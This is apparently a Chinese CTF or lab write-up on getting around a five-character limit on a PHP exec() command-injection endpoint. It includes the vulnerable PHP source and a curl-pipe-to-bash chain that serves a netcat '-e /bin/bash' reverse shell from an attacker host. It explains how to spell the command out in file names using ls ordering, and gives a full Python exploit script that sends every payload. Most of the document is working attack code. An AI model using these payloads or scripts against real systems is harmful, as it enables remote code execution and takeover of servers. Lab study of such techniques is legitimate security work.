








```php
<?php
highlight_file(__FILE__);  // 高亮显示当前文件源码
error_reporting(E_ALL);    // 显示所有错误

function filter($argv){
    $a = str_replace("/\*|\?|/","=====",$argv);  // 过滤某些特殊字符
    return $a;
}

if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
    exec(filter($_GET['cmd']));  // 执行过滤后的命令
} else  {
    echo "flag in local path flag file!";  // 提示flag位置
}
```

**原理**
```
期望执行命令curl 192.168.245.128|bash
- curl 192.168.245.128 从该IP地址下载内容
- | - 管道，将前一个命令的输出传递给后一个命令
- bash - 直接执行接收到的内容作为脚本

在自己kali上开启两个服务

开启web服务 默认(80)
	默认页面index.html
		内容nc 192.168.245.128 7777 -e /bin/bash

开启监听服务
	nc -lvp 7777
	
	
目标机器(靶机)执行curl 192.168.245.128|bash访问kali的web服务index页面

靶机将返回内容也就是nc 192.168.245.128 7777 -e /bin/bash发送给bash

靶机就会执行nc 192.168.245.128 7777 -e /bin/bash命令

然后就会发起连接，kali会被连接，反弹shell成功
```


**方法**
```
期望执行命令curl 192.168.245.128|bash
1.构造ls -t>y长度明显超过了5
2.分解命令创建文件
3.sh命令执行脚本
```
**构造ls -t>y**
- 先创建文件ls\  `>ls\\`
- 在创建_文件并把ls\写入文件_中 `ls>_`
- 再创建其它文件
	- `\ \\`
	- `-t\\`
	- `\>y`
- 使用>>把所有文件追加到_文件中 `ls>>_`
==为什么创建_文件？因为ls,命令下输出结果文件’ls\‘排序太靠后了要想办法把它弄到第一位==
- `\ \\`   `-t\\`   `\>y` 顺序必须在前三位且按顺序，最后使用ls 将结果追加入_文件中，而在_文件中ls在第一位因此构成了正确的语法！


==在linux系统中ls默认排序优先级是更具ascii==
```
控制字符 → 空格 → ! " # $ % & ' ( ) * + , - . / 
→ 数字 0-9 
→ : ; < = > ? @ 
→ 大写字母 A-Z 
→ [ \ ] ^ _ ` 
→ 小写字母 a-z 
→ { | } ~
```


**分解命令 ` curl 192.168.245.128|bash`**
```
    ">bash",
    ">\|\\",
    ">\/\\", # 转义|
    ">28\\",
    ">1\\",
    ">5.\\",
    ">24\\",
    ">8.\\",
    ">16\\",
    ">2.\\",
    ">19\\",
    ">\ \\",
    ">rl\\",
    ">cu\\"
```

**kali主机开启http服务**

访问


**再开启一个监听端口**



==补充说明==

即使_不是ls开头，但只要ls -t>y是完整连贯插入_也是可以执行成功的

**反弹shell成功**



**脚本**
```python
# encoding:utf-8  
import time  
import requests  
  
baseurl = "http://192.168.245.128:18090/class09/3/index.php?cmd="  
s = requests.session()  
  
# 将ls -t 写入文件_  
list = [  
    ">ls\\",  
    "ls>_",  
    ">\ \\",  
    ">-t\\",  
    ">\>y",  
    "ls>>_"  
]  
  
# curl 192.168.245.128/1|bash  
list2 = [  
    ">bash",  
    ">\|\\",  
    ">\/\\",  
    ">28\\",  
    ">1\\",  
    ">5.\\",  
    ">24\\",  
    ">8.\\",  
    ">16\\",  
    ">2.\\",  
    ">19\\",  
    ">\ \\",  
    ">rl\\",  
    ">cu\\"  
]  
for i in list:  
    time.sleep(1)  
    url = baseurl + str(i)  
    s.get(url)  
  
for j in list2:  
    time.sleep(1)  
    url = baseurl + str(j)  
    s.get(url)  
  
s.get(baseurl + "sh _")  
s.get(baseurl + "sh y")
```